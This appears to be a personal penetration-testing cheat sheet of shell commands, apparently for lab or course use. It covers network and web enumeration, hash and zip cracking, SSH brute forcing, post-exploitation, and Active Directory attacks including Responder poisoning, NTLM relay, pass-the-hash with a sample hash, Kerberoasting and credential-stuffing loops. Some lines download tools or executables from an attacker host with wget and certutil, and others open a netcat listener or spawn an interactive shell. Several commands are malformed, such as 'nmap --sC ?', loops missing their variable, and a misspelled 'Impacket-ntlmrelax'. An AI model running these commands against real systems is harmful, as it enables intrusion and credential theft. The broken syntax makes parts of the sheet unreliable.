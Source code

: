 ## General

rm -rf /path/to/directory

## Enumeration  

ip a  

arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap -sV -A -T4 --top-ports 500 [target]

nmap --sC ? 

nmap -p- --script vuln [target]

nmap --top-ports 500 --script vuln [target]

(Example when providing a txt based file to scan -iL 'inlist' must be used)
nmap -p 445 -iL targets.txt

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -v | grep "Status: 200"

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error

assetfinder example.com

assetfinder --subs-only example.com

(directory hunting) ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php -v | grep FUZZ 

python -V 

## Web Enumeration

Curl -I http://[target]

nikto -h http://[IPaddress:8080]

## DNS enumeration (workflow)

dig -x [IP]

nslookup [IP]

dnsrecon -r [IP range/24]

dnsrecon -r [target IP range/24 it belongs to] -n [targetIP]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

NTLM# hash: hashcat -m 5600 file.txt /usr/share/wordlists/rockyou.txt --force

    ntlm# will dictate the specific module -m required to be set for the cracking.  
    in virtual machine intances --force may be required.  
    if a password has already been cracked it may reside in the potfile on --show

hash-identifier

## Brute forcing
Hydra

nmap -p 22 --script ssh-brute --script-args="userdb=/path/to/username_wordlist.txt,passdb=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" 192.168.64.137


## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

##Linux wget and curl command

wget http://192.168.64.137:8000/linpeas.sh -O linpeas.sh

🔼 Upgrading to an interactive shell using python  
python -c 'import pty; pty.spawn("/bin/bash")'

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

## Listener
nc -nlvp [port]

## Directory hosting
python2 - python -m SimpleHTTPServer

python3 - python3 -m http.server 8080

## Active Directory Attacks  

sudo responder -I tun0 -dwP | tun0 here is used when we are getting access via VPN

(Captures) LLMNR attacks  
sudo responder -I eth0 -dwv

(Relays) SMB attack  
sudo responder -I eth0 -dPv

(Relay authentication into targets | -i interacive shell | -c command execution)  
Impacket-ntlmrelax -tf targets.txt -smb2support -i 

(PtH with crackmapexec)
crackmapexec smb 10.10.10.0/24 -u username -H aad3b435b51404eeaad3b435b51404ee:31dcfce0d16ae931b73c59d7e0c089c0

(PtP with crackmapexec) 
crackmapexec smb 10.10.10.0/24 -u username -p 'password'

(Enumerate service principile names with their krbtgs (kerberos ticket granting service hash) - useful in AD envs when SPN objects are not set to read only.
Impacket-GetUserSPNs -dc-ip <10.10.10.0> domain/username:password -request

**Identify hosts without SMB signing:** nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn  
In the event initial scanning of a known target presents no results adding -Pn will still scan the target and provide information regardless. 

## Bash; 'for' loops 

for in X variable varibale varibale; do COMMAND_LINE_ACTION $X; done

(Example IP scan without text file list - ideal for small list, any large lists just use a .txt file)
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do nmap -T4 -sV -A --top-ports 500 $ip; done

(Example crackmap SMB enumeration - ideal for small list, any large lists just use a .txt file for username and passwords)
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do crackmapexec smb $ip -u username -p 'password'; done

(Example crackmap SMB credential 'sniper' stuffing password - small list)
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do for in user Admin Administrator Username; do crackmapexec smb $ip -u $user -p password --local-auth; done; done

(Example using .txt files within 'for' loops of crackmap SMB auth) - note: when using files for crackmapexec -P must be used instead of -p 
for user in Admin Administrator Username; do crackmapexec smb 10.10.10.1 -u $user -P passwordfile.txt --local-auth; done




